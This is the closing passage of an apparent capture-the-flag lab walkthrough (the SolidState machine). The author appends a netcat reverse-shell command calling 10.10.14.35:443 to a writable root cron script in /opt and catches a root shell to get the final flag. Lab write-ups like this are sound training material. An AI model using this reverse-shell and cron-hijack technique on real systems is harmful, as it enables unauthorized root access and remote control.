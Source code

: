Because it's no longer there, I'm thinking that tmp.py in `/opt` is actually a cronjob that is running, which removed our copy of Linpeas.

We also know that the file is writable for us, so lets add a reverse shell to the file and see if we can get a response back.

Lets use:

```text
echo "os.system('/bin/nc -e /bin/bash 10.10.14.35 443')" >> /opt/tmp.py
```
After waiting a few minutes we caught a shell back as root on our listener!

![shell.png](../assets/solidstate_assets/shell.png)

Now we can grab the final root.txt flag:

![root_flag.png](../assets/solidstate_assets/root_flag.png)

Thanks for following along!

-Ryan
